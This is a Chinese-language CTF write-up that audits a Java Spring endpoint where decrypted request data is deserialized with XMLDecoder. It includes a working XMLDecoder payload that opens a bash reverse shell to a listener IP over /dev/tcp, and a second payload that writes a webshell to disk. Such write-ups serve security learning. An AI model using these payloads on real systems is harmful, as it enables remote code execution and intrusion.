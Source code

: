 某一次玩一个CTF题，由于当时没搞明白，现在重新搞了下终于明白了一点，顺便记录一下审计的思路。参考weblogic XMLDecoder反序列化漏洞 CVE-2017-10271  也是同样的原理。

漏洞的整体源代码：
```java
/*    */ import com.example.happyjavavul.utils.Encryption;
/*    */ import com.example.happyjavavul.utils.FileUtils;
/*    */ import java.beans.XMLDecoder;
/*    */ import java.beans.XMLEncoder;
/*    */ import java.io.BufferedOutputStream;
/*    */ import java.io.File;
/*    */ import java.io.FileNotFoundException;
/*    */ import java.io.FileOutputStream;
/*    */ import java.io.UnsupportedEncodingException;
/*    */ import java.security.InvalidAlgorithmParameterException;
/*    */ import java.security.InvalidKeyException;
/*    */ import java.security.NoSuchAlgorithmException;
/*    */ import javax.crypto.BadPaddingException;
/*    */ import javax.crypto.IllegalBlockSizeException;
/*    */ import javax.crypto.NoSuchPaddingException;
/*    */ import org.springframework.stereotype.Controller;
/*    */ import org.springframework.web.bind.annotation.ResponseBody;
/*    */ 
/*    */ @Controller
/*    */ public class ConfigController
/*    */ {
/*    */   @org.springframework.web.bind.annotation.CrossOrigin
/*    */   @ResponseBody
/*    */   @org.springframework.web.bind.annotation.PostMapping({"api/goldfinger/849d107e"})
/*    */   public Result changeConfig(@org.springframework.web.bind.annotation.RequestBody GameConfig gameConfig)
/*    */   {
/* 29 */     String key = gameConfig.getKey();
/* 30 */     String configData = gameConfig.getDes();
/* 31 */     if ((key.equals("")) || (configData.equals(""))) {
/* 32 */       return new Result(500);
/*    */     }
/*    */     
/* 35 */     if (!java.util.Objects.equals(Encryption.key, key)) {
/* 36 */       return new Result(400);
/*    */     }
/*    */     try
/*    */     {
/* 40 */       xmlData = Encryption.decryptGCMBase64(configData);
/*    */     } catch (NoSuchPaddingException e) { String xmlData;
/* 42 */       e.printStackTrace();
/* 43 */       return new Result(500);
/*    */     } catch (NoSuchAlgorithmException e) {
/* 45 */       e.printStackTrace();
/* 46 */       return new Result(500);
/*    */     } catch (InvalidKeyException e) {
/* 48 */       e.printStackTrace();
/* 49 */       return new Result(500);
/*    */     } catch (BadPaddingException e) {
/* 51 */       e.printStackTrace();
/* 52 */       return new Result(500);
/*    */     } catch (IllegalBlockSizeException e) {
/* 54 */       e.printStackTrace();
/* 55 */       return new Result(500);
/*    */     } catch (InvalidAlgorithmParameterException e) {
/* 57 */       e.printStackTrace();
/* 58 */       return new Result(500);
/*    */     } catch (UnsupportedEncodingException e) {
/* 60 */       e.printStackTrace();
/* 61 */       return new Result(500);
/*    */     }
/*    */     try {
/*    */       String xmlData;
/* 65 */       java.io.InputStream stream = new java.io.ByteArrayInputStream(xmlData.getBytes());
/* 66 */       XMLDecoder decoder = new XMLDecoder(stream);
/* 67 */       rawGameConfig = (RawGameConfig)decoder.readObject();
/*    */     } catch (Exception e) { RawGameConfig rawGameConfig;
/* 69 */       e.printStackTrace();
/* 70 */       return new Result(500); }
/*    */     RawGameConfig rawGameConfig;
/* 72 */     File file = new File(FileUtils.getCurrentDirectory(), "currentRawGameConfig.xml");
/* 73 */     BufferedOutputStream bufferedOutputStream = null;
/*    */     try {
/* 75 */       bufferedOutputStream = new BufferedOutputStream(new FileOutputStream(file, false));
/*    */     } catch (FileNotFoundException e) {
/* 77 */       e.printStackTrace();
/*    */     }
/* 79 */     XMLEncoder xmlEncoder = new XMLEncoder(bufferedOutputStream);
/* 80 */     xmlEncoder.writeObject(rawGameConfig);
/* 81 */     xmlEncoder.close();
/* 82 */     return new Result(200);
/*    */   }
/*    */ }

```


来到ConfigController.java中<br />路由api/goldfinger/849d107e ，通过body获取gameConfig的内容，分别是getKey、getDes两个值<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1644336160440-85a46013-b2f8-43ce-bc7e-ac8d8f1b2bf8.png#clientId=u66bddfec-ec48-4&from=paste&height=120&id=u074fc7b5&originHeight=232&originWidth=1099&originalType=binary&ratio=1&size=28252&status=done&style=none&taskId=uae4cf448-03dd-4eb0-8a1e-65ffd083027&width=568.6000366210938)<br />跟进查看GameConfig类，其实就是key和des的值。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1644336231611-aedd8f5c-5c41-4b82-b4c0-4a957d092d65.png#clientId=u66bddfec-ec48-4&from=paste&height=404&id=uecddd3ad&originHeight=668&originWidth=743&originalType=binary&ratio=1&size=47051&status=done&style=none&taskId=uc64a00b8-1115-4563-a373-652142f831c&width=449.5)

继续往下查看ConfigController.java代码逻辑，如果key、configData值不为空，那么继续往下比对key中的值<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1644336361802-a7de0139-6daf-4725-b2da-017fdb03423c.png#clientId=u66bddfec-ec48-4&from=paste&height=144&id=u3e4ddbfd&originHeight=184&originWidth=694&originalType=binary&ratio=1&size=16575&status=done&style=none&taskId=ufebe77ba-f307-43cc-a1f1-bdf4f72950b&width=542)<br />跟进一下Encryption.java查看key值，也就前端输入的key要和这个key相等，才能继续进入下一个逻辑<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1644336427605-c0c7f429-8c6e-4939-af9b-8ee82ae51dfd.png#clientId=u66bddfec-ec48-4&from=paste&height=392&id=uf230fa79&originHeight=496&originWidth=646&originalType=binary&ratio=1&size=51089&status=done&style=none&taskId=uf1662af2-0893-491b-9efc-3678391d77c&width=511)

configData的值会进行一个GCMBase64方法的解密<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1644336492186-974df0a2-7ab5-48e2-8a1a-70a0b1a4887d.png#clientId=u66bddfec-ec48-4&from=paste&height=397&id=u2f2298c3&originHeight=602&originWidth=787&originalType=binary&ratio=1&size=58415&status=done&style=none&taskId=u2d9118cc-7b24-4d21-9336-c656ed0b866&width=518.5)

解密的值会转化为xml格式后再进行一次反序列化readObject()<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1644336569027-f746a390-998f-42af-a660-e16a337d67b9.png#clientId=u66bddfec-ec48-4&from=paste&height=108&id=uc8251e36&originHeight=187&originWidth=958&originalType=binary&ratio=1&size=21450&status=done&style=none&taskId=udfe8831c-80b9-4cb5-841e-aa7e6eb3619&width=553)

梳理思路：key和des值都是可控，key值在逻辑传输中并其他变化，而des值的关系主要如下：<br />des→configData(GCM+BASE64的解密)→xmlData→readObject<br />XMLDecoder用于将XMLEncoder创建的xml文档内容反序列化为一个Java对象

集齐以上因素，攻击者只要对des参数传参时，构造xml的攻击payload+(GCM+BASE64加密)即可进行反序列化攻击
```java
<void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
        <void index="0">
            <string>/bin/bash</string>
        </void>
        <void index="1">
            <string>-c</string>
        </void>
        <void index="2">
            <string>bash -i &gt;&amp; /dev/tcp/192.168.201.135/8089 0&gt;&amp;1</string>
        </void>
    </array>
    <void method="start"/>
</void>
```
把加密后的xml填入到 GameConfig  中，成功反弹shell。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1644592773269-366de4ff-889d-4081-b190-6d6947cb3939.png#clientId=u5a001ede-41df-4&from=paste&height=620&id=u2fe38828&originHeight=827&originWidth=1653&originalType=binary&ratio=1&size=351355&status=done&style=none&taskId=u20e6e4a3-1018-4fe9-a210-248ae630f94&width=1240)

如果目标不出网，可以通过调用io流写入webshell，但前提是找到物理路径才行。
```java
<java version="1.8.0_131" class="java.beans.xmlDecoder">
    <object class="java.io.PrintWriter">
        <string>物理路径</string>
        <void method="println">
            <string>
                123木马内容
            </string>
        </void>
        <void method="close" />
    </object>
</java>
```


